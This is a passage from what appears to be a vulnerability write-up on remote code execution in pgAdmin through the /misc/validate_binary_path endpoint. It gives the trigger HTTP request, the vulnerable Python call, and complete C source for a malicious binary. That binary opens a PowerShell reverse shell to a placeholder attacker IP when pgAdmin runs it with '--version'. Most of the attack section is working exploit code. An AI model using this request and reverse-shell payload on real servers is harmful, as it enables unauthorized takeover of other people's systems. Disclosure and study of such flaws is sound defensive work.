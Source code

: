 ![image](https://gist.github.com/assets/66908023/5809ad35-4616-41d0-bd9b-e66cb75871b5)

#### Triggering the Vulnerable Code Execution Path
To trigger execution of the binary, a separate API request is made, effectively instructing PGAdmin to validate the utility path, indirectly leading to execution of the malicious binary.
**Trigger API Request:** 
```
POST /misc/validate_binary_path HTTP/1.1
Host: pgadmin
{
    "utility_path": "/var/lib/pgadmin/storage/{username}"
}
```
![image](https://gist.github.com/assets/66908023/befede19-c034-4130-8d58-f68137a406ab)

#### Resulting in Unauthorized Code Execution
PGAdmin's code does not properly validate or sanitize input paths, leading to execution of the uploaded binary. This demonstrates a significant security oversight in handling file operations and executing external commands.

```python
def get_binary_path_versions(binary_path: str) -> dict:
    ...
    cmd = subprocess.run([full_path, '--version'], shell=False, capture_output=True, text=True)
    ...
```

When we invoke the `/misc/validate_binary_path` API endpoint with the given PATH containing our malicious executable, the `get_binary_path_versions()` function will be triggered. It executes our payload, and then we can observe the HTTP interaction through our HTTP server with PowerShell, as you can see in the screenshot below.

![HTTP Interaction](https://github.com/aelmokhtar/ayoubmokhtar.github.io/assets/66908023/0f262522-1cea-4d9d-9bb4-669216549ffb)

#### Exploitation via PowerShell Reverse Shell

PowerShell, a powerful scripting and automation tool integral to Windows, can be misused by attackers to establish reverse shells on compromised systems. A reverse shell facilitates a covert communication channel back to the attacker, granting them the ability to execute commands remotely and assume control over the victim's system. 

#### Compilation of Malicious Binary
In the context of the PGAdmin vulnerability exploitation on windows system, attackers can modify the C code provided below to generate a malicious binary that executes a PowerShell command and initiates a reverse shell.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
int main(int argc, char *argv[]) {
    if (argc > 1 && strcmp(argv[1], "--version") == 0) {
        system("powershell -nop -c \"$client = New-Object System.Net.Sockets.TCPClient('<attacker-ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()\"");
    } else {
        printf("Usage: %s --version\n", argv[0]);
    }
    return 0;
}
```
